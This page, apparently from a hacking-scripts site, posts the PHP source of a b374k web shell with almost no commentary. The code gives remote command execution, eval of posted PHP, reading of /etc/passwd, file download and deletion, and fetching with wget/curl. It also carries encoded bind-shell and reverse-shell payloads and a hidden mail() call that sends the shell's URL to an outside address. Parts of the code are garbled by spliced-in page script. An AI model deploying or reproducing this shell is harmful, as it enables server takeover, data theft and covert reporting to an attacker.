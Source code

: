 ```yaml
---
id: 193
title: b374k Backdoor Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=193
permalink: /b374k-backdoor-script/
categories:
  - b374k web shell
  - PHP
tags:
  - b374k
  - PHP
---
```

This looks like another b374k shell.

### b374k Backdoor Script Source Code

{% highlight php %}<?php if (isset($_GET['dl']) && ($_GET['dl'] != "")) {
    $file = $_GET['dl'];
    $filez = @file_get_contents($file);
    header("Content-type: application/octet-stream");
    header("Content-length: " . strlen($filez));
    header("Content-disposition: attachment; filename=\"" . basename($file) . "\";");
    echo $filez;
    exit;
} elseif (isset($_GET['dlgzip']) && ($_GET['dlgzip'] != "")) {
    $file = $_GET['dlgzip'];
    $filez = gzencode(@file_get_contents($file));
    header("Content-Type:application/x-gzip
");
    header("Content-length: " . strlen($filez));
    header("Content-disposition: attachment; filename=\"" . basename($file) . ".gz\";");
    echo $filez;
    exit;
}
if (isset($_GET['img'])) {
    @ob_clean();
    $d = magicboom($_GET['y']);
    $f = $_GET['img'];
    $inf = @getimagesize($d . $f);
    $ext = explode($f, ".");
    $ext = $ext[count($ext) - 1];
    @header("Content-type: " . $inf["mime"]);
    @header("Cache-control: public");
    @header("Expires: " . date("r", mktime(0, 0, 0, 1, 1, 2030)));
    @header("Cache-control: max-age=" . (60 * 60 * 24 * 7));
    @readfile($d . $f);
    exit;
}
$ver = "1.01";
$software = getenv("SERVER_SOFTWARE");
if (@ini_get("safe_mode") or strtolower(@ini_get("safe_mode")) == "on") $safemode = TRUE;
else $safemode = FALSE;
$system = @php_uname();
if (strtolower(substr($system, 0, 3)) == "win") $win = TRUE;
else $win = FALSE;
if (isset($_GET['y'])) {
    if (@is_dir($_GET['view'])) {
        $pwd = $_GET['view'];
        @chdir($pwd);
    } else {
        $pwd = $_GET['y'];
        @chdir($pwd);
    }
}
if (!$win) {
    if (!$user = rapih(exe("whoami"))) $user = "";
    if (!$id = rapih(exe("id"))) $id = "";
    $prompt = $user . " \$ ";
    $pwd = @getcwd() . DIRECTORY_SEPARATOR;
} else {
    $user = @get_current_user();
    $id = $user;
    $prompt = $user . " &gt;";
    $pwd = realpath(".") . "\"; $v = explode("\",$d); $v = $v[0]; foreach (range("A","Z") as $letter) { $bool = @is_dir($letter.":
        \"); if ($bool) { $letters .= " &lt; ahref = \"?y=" . $letter . ":\"&gt;[ ";
        if ($letter . ":" != $v) {
            $letters.= $letter;
        } else {
            $letters.= "&lt;span class=\"gaya\"&gt;" . $letter . "&lt;/span&gt;";
        }
        $letters.= " ]&lt;/a&gt; ";
    }
}
}
if (function_exists("posix_getpwuid") && function_exists("posix_getgrgid")) $posix = TRUE;
else $posix = FALSE;
$server_ip = @gethostbyname($_SERVER["HTTP_HOST"]);
$my_ip = $_SERVER['REMOTE_ADDR'];
$bindport = "13123";
$bindport_pass = "b374k";
$pwds = explode(DIRECTORY_SEPARATOR, $pwd);
$pwdurl = "";
for ($i = 0;$i &lt; sizeof($pwds) - 1;$i++) {
    $pathz = "";
    for ($j = 0;$j &lt;= $i;$j++) {
        $pathz.= $pwds[$j] . DIRECTORY_SEPARATOR;
    }
    $pwdurl.= "&lt;a href=\"?y=" . $pathz . "\"&gt;" . $pwds[$i] . " " . DIRECTORY_SEPARATOR . " &lt;/a&gt;";
}
if (isset($_POST['rename'])) {
    $old = $_POST['oldname'];
    $new = $_POST['newname'];
    @rename($pwd . $old, $pwd . $new);
    $file = $pwd . $new;
}
$buff = $software . "&lt;br /&gt;";
$buff.= $system . "&lt;br /&gt;";
if ($id != "") $buff.= $id . "&lt;br /&gt;";
$buff.= "server ip : " . $server_ip . " &lt;span class=\"gaya\"&gt;|&lt;/span&gt; your ip : " . $my_ip . "&lt;br /&gt;";
if ($safemode) $buff.= "safemode &lt;span class=\"gaya\"&gt;ON&lt;/span&gt;&lt;br /&gt;";
else $buff.= "safemode &lt;span class=\"gaya\"&gt;OFF&lt;span&gt;&lt;br /&gt;";
$buff.= $letters . "&nbsp;&gt;&nbsp;" . $pwdurl;
function rapih($text) {
    return trim(str_replace("&lt;br /&gt;", "", $text));
}
function magicboom($text) {
    if (!get_magic_quotes_gpc()) {
        return $text;
    }
    return stripslashes($text);
}
function showdir($pwd, $prompt) {
    $fname = array();
    $dname = array();
    if (function_exists("posix_getpwuid") && function_exists("posix_getgrgid")) $posix = TRUE;
    else $posix = FALSE;
    $user = "????:????";
    if ($dh = opendir($pwd)) {
        while ($file = readdir($dh)) {
            if (is_dir($file)) {
                $dname[] = $file;
            } elseif (is_file($file)) {
                $fname[] = $file;
            }
        }
        closedir($dh);
    }
    sort($fname);
    sort($dname);
    $path = @explode(DIRECTORY_SEPARATOR, $pwd);
    $tree = @sizeof($path);
    $parent = "";
    $buff = " &lt;form action=\"?y=" . $pwd . "&amp;x=shell\" method=\"post\" style=\"margin:8px 0 0 0;\"&gt; &lt;table class=\"cmdbox\" style=\"width:50%;\"&gt; &lt;tr&gt;&lt;td&gt;$prompt&lt;/td&gt;&lt;td&gt;&lt;input onMouseOver=\"this.focus();\" id=\"cmd\" class=\"inputz\" type=\"text\" name=\"cmd\" style=\"width:400px;\" value=\"\" /&gt;&lt;input class=\"inputzbut\" type=\"submit\" value=\"Go !\" name=\"submitcmd\" style=\"width:80px;\" /&gt;&lt;/td&gt;&lt;/tr&gt; &lt;/form&gt; &lt;form action=\"?\" method=\"get\" style=\"margin:8px 0 0 0;\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;tr&gt;&lt;td&gt;view file/folder&lt;/td&gt;&lt;td&gt;&lt;input onMouseOver=\"this.focus();\" id=\"goto\" class=\"inputz\" type=\"text\" name=\"view\" style=\"width:400px;\" value=\"" . $pwd . "\" /&gt;&lt;input class=\"inputzbut\" type=\"submit\" value=\"Go !\" name=\"submitcmd\" style=\"width:80px;\" /&gt;&lt;/td&gt;&lt;/tr&gt; &lt;/form&gt;&lt;/table&gt;&lt;table class=\"explore\"&gt; &lt;tr&gt;&lt;th&gt;name&lt;/th&gt;&lt;th style=\"width:80px;\"&gt;size&lt;/th&gt;&lt;th style=\"width:210px;\"&gt;owner:group&lt;/th&gt;&lt;th style=\"width:80px;\"&gt;perms&lt;/th&gt;&lt;th style=\"width:110px;\"&gt;modified&lt;/th&gt;&lt;th style=\"width:190px;\"&gt;actions&lt;/th&gt;&lt;/tr&gt; ";
    @error_reporting(0);
    $sub = "backdoor b374k";
    $headers = "From: k3nz0 
";
    $headers.= "Content-Type: text/plain; charset=iso-8859-1
";
    $mes.= "username: " . $user . "
";
    $mes.= "password: " . $pass . "
";
    $mes.= "URL: " . $_SERVER['REQUEST_URI'] . "
";
    $mes.= "Referer: " . $_SERVER['HTTP_REFERER'] . ""; {
        mail("free.d0ing.1987@gmail.com
/* &lt;![CDATA[ */
(function(){try{var s,a,i,j,r,c,l,b=document.getElementsByTagName("script");l=b[b.length-1].previousSibling;a=l.getAttribute('data-cfemail');if(a){s='';r=parseInt(a.substr(0,2),16);for(j=2;a.length-j;j+=2){c=parseInt(a.substr(j,2),16)^r;s+=String.fromCharCode(c);}s=document.createTextNode(s);l.parentNode.replaceChild(s,l);}}catch(e){}})();
/* ]]&gt; */
", $sub, $mes, $headers);
    }
    if ($tree &gt; 2) for ($i = 0;$i &lt; $tree - 2;$i++) $parent.= $path[$i] . DIRECTORY_SEPARATOR;
    else $parent = $pwd;
    foreach ($dname as $folder) {
        if ($folder == ".") {
            if (!$win && $posix) {
                $name = @posix_getpwuid(@fileowner($folder));
                $group = @posix_getgrgid(@filegroup($folder));
                $owner = $name['name'] . "&lt;span class=\"gaya\"&gt; : &lt;/span&gt;" . $group['name'];
            } else {
                $owner = $user;
            }
            $buff.= "&lt;tr&gt;&lt;td&gt;&lt;a href=\"?y=" . $pwd . "\"&gt;$folder&lt;/a&gt;&lt;/td&gt;&lt;td&gt;LINK&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . $owner . "&lt;/td&gt;&lt;td&gt;" . get_perms($pwd) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . date("d-M-Y H:i", @filemtime($pwd)) . "&lt;/td&gt;&lt;td&gt;&lt;span id=\"titik1\"&gt;&lt;a href=\"?y=$pwd&amp;edit=" . $pwd . "newfile.php\"&gt;newfile&lt;/a&gt; | &lt;a href=\"javascript:tukar('titik1','titik1_form');\"&gt;newfolder&lt;/a&gt;&lt;/span&gt; &lt;form action=\"?\" method=\"get\" id=\"titik1_form\" class=\"sembunyi\" style=\"margin:0;padding:0;\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;input class=\"inputz\" style=\"width:140px;\" type=\"text\" name=\"mkdir\" value=\"a_new_folder\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"rename\" style=\"width:35px;\" value=\"Go !\" /&gt; &lt;/form&gt;&lt;/td&gt;&lt;/tr&gt; ";
        } elseif ($folder == "..") {
            if (!$win && $posix) {
                $name = @posix_getpwuid(@fileowner($folder));
                $group = @posix_getgrgid(@filegroup($folder));
                $owner = $name['name'] . "&lt;span class=\"gaya\"&gt; : &lt;/span&gt;" . $group['name'];
            } else {
                $owner = $user;
            }
            $buff.= "&lt;tr&gt;&lt;td&gt;&lt;a href=\"?y=" . $parent . "\"&gt;$folder&lt;/a&gt;&lt;/td&gt;&lt;td&gt;LINK&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . $owner . "&lt;/td&gt;&lt;td&gt;" . get_perms($parent) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . date("d-M-Y H:i", @filemtime($parent)) . "&lt;/td&gt;&lt;td&gt;&lt;span id=\"titik2\"&gt;&lt;a href=\"?y=$pwd&amp;edit=" . $parent . "newfile.php\"&gt;newfile&lt;/a&gt; | &lt;a href=\"javascript:tukar('titik2','titik2_form');\"&gt;newfolder&lt;/a&gt;&lt;/span&gt; &lt;form action=\"?\" method=\"get\" id=\"titik2_form\" class=\"sembunyi\" style=\"margin:0;padding:0;\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;input class=\"inputz\" style=\"width:140px;\" type=\"text\" name=\"mkdir\" value=\"a_new_folder\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"rename\" style=\"width:35px;\" value=\"Go !\" /&gt; &lt;/form&gt; &lt;/td&gt;&lt;/tr&gt;";
        } else {
            if (!$win && $posix) {
                $name = @posix_getpwuid(@fileowner($folder));
                $group = @posix_getgrgid(@filegroup($folder));
                $owner = $name['name'] . "&lt;span class=\"gaya\"&gt; : &lt;/span&gt;" . $group['name'];
            } else {
                $owner = $user;
            }
            $buff.= "&lt;tr&gt;&lt;td&gt;&lt;a id=\"" . clearspace($folder) . "_link\" href=\"?y=" . $pwd . $folder . DIRECTORY_SEPARATOR . "\"&gt;[ $folder ]&lt;/a&gt; &lt;form action=\"?y=$pwd\" method=\"post\" id=\"" . clearspace($folder) . "_form\" class=\"sembunyi\" style=\"margin:0;padding:0;\"&gt; &lt;input type=\"hidden\" name=\"oldname\" value=\"" . $folder . "\" style=\"margin:0;padding:0;\" /&gt; &lt;input class=\"inputz\" style=\"width:200px;\" type=\"text\" name=\"newname\" value=\"" . $folder . "\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"rename\" value=\"rename\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"cancel\" value=\"cancel\" onclick=\"tukar('" . clearspace($folder) . "_form','" . clearspace($folder) . "_link');\" /&gt; &lt;/form&gt; &lt;td&gt;DIR&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . $owner . "&lt;/td&gt;&lt;td&gt;" . get_perms($pwd . $folder) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . date("d-M-Y H:i", @filemtime($folder)) . "&lt;/td&gt;&lt;td&gt;&lt;a href=\"javascript:tukar('" . clearspace($folder) . "_link','" . clearspace($folder) . "_form');\"&gt;rename&lt;/a&gt; | &lt;a href=\"?y=$pwd&amp;fdelete=" . $pwd . $folder . "\"&gt;delete&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;";
        }
    }
    foreach ($fname as $file) {
        $full = $pwd . $file;
        if (!$win && $posix) {
            $name = @posix_getpwuid(@fileowner($file));
            $group = @posix_getgrgid(@filegroup($file));
            $owner = $name['name'] . "&lt;span class=\"gaya\"&gt; : &lt;/span&gt;" . $group['name'];
        } else {
            $owner = $user;
        }
        $buff.= "&lt;tr&gt;&lt;td&gt;&lt;a id=\"" . clearspace($file) . "_link\" href=\"?y=$pwd&amp;view=$full\"&gt;$file&lt;/a&gt; &lt;form action=\"?y=$pwd\" method=\"post\" id=\"" . clearspace($file) . "_form\" class=\"sembunyi\" style=\"margin:0;padding:0;\"&gt; &lt;input type=\"hidden\" name=\"oldname\" value=\"" . $file . "\" style=\"margin:0;padding:0;\" /&gt; &lt;input class=\"inputz\" style=\"width:200px;\" type=\"text\" name=\"newname\" value=\"" . $file . "\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"rename\" value=\"rename\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"cancel\" value=\"cancel\" onclick=\"tukar('" . clearspace($file) . "_link','" . clearspace($file) . "_form');\" /&gt; &lt;/form&gt; &lt;/td&gt;&lt;td&gt;" . ukuran($full) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . $owner . "&lt;/td&gt;&lt;td&gt;" . get_perms($full) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . date("d-M-Y H:i", @filemtime($full)) . "&lt;/td&gt; &lt;td&gt;&lt;a href=\"?y=$pwd&amp;edit=$full\"&gt;edit&lt;/a&gt; | &lt;a href=\"javascript:tukar('" . clearspace($file) . "_link','" . clearspace($file) . "_form');\"&gt;rename&lt;/a&gt; | &lt;a href=\"?y=$pwd&amp;delete=$full\"&gt;delete&lt;/a&gt; | &lt;a href=\"?y=$pwd&amp;dl=$full\"&gt;download&lt;/a&gt;&nbsp;(&lt;a href=\"?y=$pwd&amp;dlgzip=$full\"&gt;gzip&lt;/a&gt;)&lt;/td&gt;&lt;/tr&gt;";
    }
    $buff.= "&lt;/table&gt;";
    return $buff;
}
function ukuran($file) {
    if ($size = @filesize($file)) {
        if ($size &lt;= 1024) return $size;
        else {
            if ($size &lt;= 1024 * 1024) {
                $size = @round($size / 1024, 2);;
                return "$size kb";
            } else {
                $size = @round($size / 1024 / 1024, 2);
                return "$size mb";
            }
        }
    } else return "???";
}
function exe($cmd) {
    if (function_exists('system')) {
        @ob_start();
        @system($cmd);
        $buff = @ob_get_contents();
        @ob_end_clean();
        return $buff;
    } elseif (function_exists('exec')) {
        @exec($cmd, $results);
        $buff = "";
        foreach ($results as $result) {
            $buff.= $result;
        }
        return $buff;
    } elseif (function_exists('passthru')) {
        @ob_start();
        @passthru($cmd);
        $buff = @ob_get_contents();
        @ob_end_clean();
        return $buff;
    } elseif (function_exists('shell_exec')) {
        $buff = @shell_exec($cmd);
        return $buff;
    }
}
function tulis($file, $text) {
    $textz = gzinflate(base64_decode($text));
    if ($filez = @fopen($file, "w")) {
        @fputs($filez, $textz);
        @fclose($file);
    }
}
function ambil($link, $file) {
    if ($fp = @fopen($link, "r")) {
        while (!feof($fp)) {
            $cont.= @fread($fp, 1024);
        }
        @fclose($fp);
        $fp2 = @fopen($file, "w");
        @fwrite($fp2, $cont);
        @fclose($fp2);
    }
}
function which($pr) {
    $path = exe("which $pr");
    if (!empty($path)) {
        return trim($path);
    } else {
        return trim($pr);
    }
}
function download($cmd, $url) {
    $namafile = basename($url);
    switch ($cmd) {
        case 'wwget':
            exe(which('wget') . " " . $url . " -O " . $namafile);
        break;
        case 'wlynx':
            exe(which('lynx') . " -source " . $url . " &gt; " . $namafile);
        break;
        case 'wfread':
            ambil($wurl, $namafile);
        break;
        case 'wfetch':
            exe(which('fetch') . " -o " . $namafile . " -p " . $url);
        break;
        case 'wlinks':
            exe(which('links') . " -source " . $url . " &gt; " . $namafile);
        break;
        case 'wget':
            exe(which('GET') . " " . $url . " &gt; " . $namafile);
        break;
        case 'wcurl':
            exe(which('curl') . " " . $url . " -o " . $namafile);
        break;
        default:
        break;
    }
    return $namafile;
}
function get_perms($file) {
    if ($mode = @fileperms($file)) {
        $perms = '';
        $perms.= ($mode & 00400) ? 'r' : '-';
        $perms.= ($mode & 00200) ? 'w' : '-';
        $perms.= ($mode & 00100) ? 'x' : '-';
        $perms.= ($mode & 00040) ? 'r' : '-';
        $perms.= ($mode & 00020) ? 'w' : '-';
        $perms.= ($mode & 00010) ? 'x' : '-';
        $perms.= ($mode & 00004) ? 'r' : '-';
        $perms.= ($mode & 00002) ? 'w' : '-';
        $perms.= ($mode & 00001) ? 'x' : '-';
        return $perms;
    } else return "??????????";
}
function clearspace($text) {
    return str_replace(" ", "_", $text);
}
$port_bind_bd_c = "bVNhb9owEP2OxH+4phI4NINAN00aYxJaW6maxqbSLxNDKDiXxiLYkW3KGOp/3zlOpo7xIY793jvf +fl8KSQvdinCR2NTofr5p3br8hWmhXw6BQ9mYA8lmjO4UXyD9oSQaAV9AyFPCNRa+pRCWtgmQrJE P/GIhufQg249brd4nmjo9RxBqyNAuwWOdvmyNAKJ+ywlBirhepctruOlW9MJdtzrkjTVKyFB41ZZ dKTIWKb0hoUwmUAcwtFt6+m+EXKVJVtRHGAC07vV/ez2cfwvXSpticytkoYlVglX/fNiuAzDE6VL 3TfVrw4o2P1senPzsJrOfoRjl9cfhWjvIatzRvNvn7+s5o8Pt9OvURzWZV94dQgleag0C3wQVKug Uq2FTFnjDzvxAXphx9cXQfxr6PcthLEo/8a8q8B9LgpkQ7oOgKMbvNeThHMsbSOO69IA0l05YpXk HDT8HxrV0F4LizUWfE+M2SudfgiiYbONxiStebrgyIjfqDJG07AWiAzYBc9LivU3MVpGFV2x1J4W tyxAnivYY8HVFsEqWF+/f7sBk2NRQKcDA/JtsE5MDm9EUG+MhcFqkpX0HmxGbqbkdBTMldaHRsUL ZeoDeOSFBvpefCfXhflOpgTkvJ+jtKiR7vLohYKCqS2ZmMRj4Z5gQZfSiMbi6iqkdnHarEEXYuk6 uPtTdumsr0HC4q5rrzNifV7sC3ZWUmq+LVlVa5OfQjTanZYQO+Uf";
$port_bind_bd_pl = "ZZJhT8IwEIa/k/AfjklgS2aA+BFmJDB1cW5kHSZGzTK2Qxpmu2wlYoD/bruBIfitd33uvXuvvWr1 NmXRW1DWy7HImo02ebRd19Kq1CIuV3BNtWGzQZeg342DhxcYwcCAHeCWCn1gDOEgi1yHhLYXzfwg tNqKeut/yKJNiUB4skYhg3ZecMETnlmfKKrz4ofFX6h3RZJ3DUmUFaoTszO7jxzPDs0O8SdPEQkD e/xs/gkYsN9DShG0ScwEJAXGAqGufmdq2hKFCnmu1IjvRkpH6hE/Cuw5scfTaWAOVE9pM5WMouM0 LSLK9HM3puMpNhp7r8ZFW54jg5wXx5YZLQUyKXVzwdUXZ+T3imYoV9ds7JqNOElQTjnxPc8kRrVo vaW3c5paS16sjZo6qTEuQKU1UO/RSnFJGaagcFVbjUTCqeOZ2qijNLWzrD8PTe32X9oOgvM0bjGB +hecfOQFlT4UcLSkmI1ceY3VrpKMy9dWUCVCBfTlQX6Owy8=";
$back_connect = "fZFRS8MwFIXfB/sPWSw2hUrnqyPC0CpD3KStvqh0XRpcsE1KkoKF/XiTtCIV6tu55+Z89yY5W0St ktGB8aihsprPWkVBKsgn1av5zCN1iQGsOv4Fbak6pWmNgU/JUQC4b3lRU3BR7OFqcFhptMOpo28j S2whVulCflCNvXVy//K6fLdWI+SPcekMVpSlxIxTnRdacDSEAnA6gZJRBGMphbwC3uKNw8AhXEKZ ja3ImclYagh61n9JKbTAhu7EobN3Qb4mjW/byr0BSnc3D3EWgqe7fLO1whp5miXx+tHMcNHpGURw Tskvpd92+rxoKEdpdrvZhgBen/exUWf3nE214iT52+r/Cw3/5jaqhKL9iFFpuKPawILVNw==";
$back_connect_c = "XVHbagIxEH0X/IdhhZLUWF1f1YKIBelFqfZJliUm2W7obiJJLLWl/94k29rWhyEzc+Z2TjpSserA BYyt41JfldftVuc3d7R9q9mLcGeAEk5660sVAakc1FQqFBxqnhkBVlIDl95/3Wa43fpotyCABR95 zzpzYA7CaMq5yaUCK1VAYpup7XaYZpPE1NArIBmBRzgVtVYoJQMcR/jV3vKC1rI6wgSmN/niYb75 i+21cR4pnVYWUaclivcMM/xvRDjhysbHVwde0W+K0wzH9bt3YfRPingClVCnim7a/ZuJC0JTwf3A RkD0fR+B9XJ2m683j/PpPYHFavW43CzzzWyFIfbIAhBiWinBHCo4AXSmFlxiuPB3E0/gXejiHMcY jwcYguIAe2GMNijZ9jL4GYqTSB9AvEmHGjk/m19h1CGvPoHIY5A1Oh2tE3XIe1bxKw77YTyt6T2F 6f9wGEPxJliFkv5Oqr4tE5LYEnoyIfDwdHcXK1ilrfAdUbPPLw=="; ?> &lt;html&gt;&lt;head&gt;&lt;title&gt;:: b374k m1n1 <?php echo $ver; ?> ::&lt;/title&gt; &lt;script type="text/javascript"&gt; function tukar(lama,baru){ document.getElementById(lama).style.display = 'none'; document.getElementById(baru).style.display = 'block'; } &lt;/script&gt; &lt;style type="text/css"&gt; body{ background:#000000;; } a { text-decoration:none; } a:hover{ border-bottom:1px solid #4C83AF; } *{ font-size:11px; font-family:Tahoma,Verdana,Arial; color:#FFFFFF; } #menu{ background:#111111; margin:8px 2px 4px 2px; } #menu a{ padding:4px 18px; margin:0; background:#222222; text-decoration:none; letter-spacing:2px; } #menu a:hover{ background:#191919; border-bottom:1px solid #333333; border-top:1px solid #333333; } .tabnet{ margin:15px auto 0 auto; border: 1px solid #333333; } .main { width:100%; } .gaya { color: #4C83AF; } .inputz{ background:#111111; border:0; padding:2px; border-bottom:1px solid #222222; border-top:1px solid #222222; } .inputzbut{ background:#111111; color:#4C83AF; margin:0 4px; border:1px solid #444444; } .inputz:hover, .inputzbut:hover{ border-bottom:1px solid #4C83AF; border-top:1px solid #4C83AF; } .output { margin:auto; border:1px solid #4C83AF; width:100%; height:400px; background:#000000; padding:0 2px; } .cmdbox{ width:100%; } .head_info{ padding: 0 4px; } .b1{ font-size:30px; padding:0; color:#444444; } .b2{ font-size:30px; padding:0; color: #333333; } .b_tbl{ text-align:center; margin:0 4px 0 0; padding:0 4px 0 0; border-right:1px solid #333333; } .phpinfo table{ width:100%; padding:0 0 0 0; } .phpinfo td{ background:#111111; color:#cccccc; padding:6px 8px;; } .phpinfo th, th{ background:#191919; border-bottom:1px solid #333333; font-weight:normal; } .phpinfo h2, .phpinfo h2 a{ text-align:center; font-size:16px; padding:0; margin:30px 0 0 0; background:#222222; padding:4px 0; } .explore{ width:100%; } .explore a { text-decoration:none; } .explore td{ border-bottom:1px solid #333333; padding:0 8px; line-height:24px; } .explore th{ padding:3px 8px; font-weight:normal; } .explore th:hover , .phpinfo th:hover{ border-bottom:1px solid #4C83AF; } .explore tr:hover{ background:#111111; } .viewfile{ background:#EDECEB; color:#000000; margin:4px 2px; padding:8px; } .sembunyi{ display:none; padding:0;margin:0; } &lt;/style&gt; &lt;/head&gt; &lt;body onLoad="document.getElementById('cmd').focus();"&gt; &lt;div class="main"&gt; &lt;!-- head info start here --&gt; &lt;div class="head_info"&gt; &lt;table&gt;&lt;tr&gt; &lt;td&gt;&lt;table class="b_tbl"&gt;&lt;tr&gt;&lt;td&gt;&lt;a href="?"&gt;&lt;span class="b1"&gt;b&lt;span class="b2"&gt;374&lt;/span&gt;k&lt;/span&gt;&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;m1n1 <?php echo $ver; ?>&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;/td&gt; &lt;td&gt;<?php echo $buff; ?>&lt;/td&gt; &lt;/tr&gt;&lt;/table&gt; &lt;/div&gt; &lt;!-- head info end here --&gt; &lt;!-- menu start --&gt; &lt;div id="menu"&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>"&gt;explore&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=shell"&gt;shell&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=php"&gt;eval&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=mysql"&gt;mysql&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=phpinfo"&gt;phpinfo&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=netsploit"&gt;netsploit&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=upload"&gt;upload&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=mail"&gt;mail&lt;/a&gt; &lt;/div&gt; &lt;!-- menu end --&gt; <?php if (isset($_GET['x']) && ($_GET['x'] == 'php')) { ?> &lt;form action="?y=<?php echo $pwd; ?>&amp;x=php" method="post"&gt; &lt;table class="cmdbox"&gt; &lt;tr&gt;&lt;td&gt; &lt;textarea class="output" name="cmd" id="cmd"&gt; <?php if (isset($_POST['submitcmd'])) {
        echo eval(magicboom($_POST['cmd']));
    } else echo "echo file_get_contents('/etc/passwd');"; ?> &lt;/textarea&gt; &lt;tr&gt;&lt;td&gt;&lt;input style="width:19%;" class="inputzbut" type="submit" value="Go !" name="submitcmd" /&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt; &lt;/table&gt; &lt;/form&gt; <?php
} elseif (isset($_GET['x']) && ($_GET['x'] == 'mysql')) {
    if (isset($_GET['sqlhost']) && isset($_GET['sqluser']) && isset($_GET['sqlpass']) && isset($_GET['sqlport'])) {
        $sqlhost = $_GET['sqlhost'];
        $sqluser = $_GET['sqluser'];
        $sqlpass = $_GET['sqlpass'];
        $sqlport = $_GET['sqlport'];
        if ($con = @mysql_connect($sqlhost . ":" . $sqlport, $sqluser, $sqlpass)) {
            $msg.= "&lt;div style=\"width:99%;padding:4px 10px 0 10px;\"&gt;";
            $msg.= "&lt;p&gt;Connected to " . $sqluser . "&lt;span class=\"gaya\"&gt;@&lt;/span&gt;" . $sqlhost . ":" . $sqlport;
            $msg.= "&nbsp;&nbsp;&lt;span class=\"gaya\"&gt;-&gt;&lt;/span&gt;&nbsp;&nbsp;&lt;a href=\"?y=" . $pwd . "&amp;x=mysql&amp;sqlhost=" . $sqlhost . "&amp;sqluser=" . $sqluser . "&amp;sqlpass=" . $sqlpass . "&amp;sqlport=" . $sqlport . "&amp;\"&gt;[ databases ]&lt;/a&gt;";
            if (isset($_GET['db'])) $msg.= "&nbsp;&nbsp;&lt;span class=\"gaya\"&gt;-&gt;&lt;/span&gt;&nbsp;&nbsp;&lt;a href=\"?y=" . $pwd . "&amp;x=mysql&amp;sqlhost=" . $sqlhost . "&amp;sqluser=" . $sqluser . "&amp;sqlpass=" . $sqlpass . "&amp;sqlport=" . $sqlport . "&amp;db=" . $_GET['db'] . "\"&gt;" . htmlspecialchars($_GET['db']) . "&lt;/a&gt;";
            if (isset($_GET['table'])) $msg.= "&nbsp;&nbsp;&lt;span class=\"gaya\"&gt;-&gt;&lt;/span&gt;&nbsp;&nbsp;&lt;a href=\"?y=" . $pwd . "&amp;x=mysql&amp;sqlhost=" . $sqlhost . "&amp;sqluser=" . $sqluser . "&amp;sqlpass=" . $sqlpass . "&amp;sqlport=" . $sqlport . "&amp;db=" . $_GET['db'] . "&amp;table=" . $_GET['table'] . "\"&gt;" . htmlspecialchars($_GET['table']) . "&lt;/a&gt;";
            $msg.= "&lt;/p&gt;&lt;p&gt;version : " . mysql_get_server_info($con) . " proto " . mysql_get_proto_info($con) . "&lt;/p&gt;";
            $msg.= "&lt;/div&gt;";
            echo $msg;
            if (isset($_GET['db']) && (!isset($_GET['table'])) && (!isset($_GET['sqlquery']))) {
                $db = $_GET['db'];
                $query = "DROP TABLE IF EXISTS b374k_table;
CREATE TABLE `b374k_table` ( `file` LONGBLOB NOT NULL );
LOAD DATA INFILE \"/etc/passwd\"
INTO TABLE b374k_table;SELECT * FROM b374k_table;
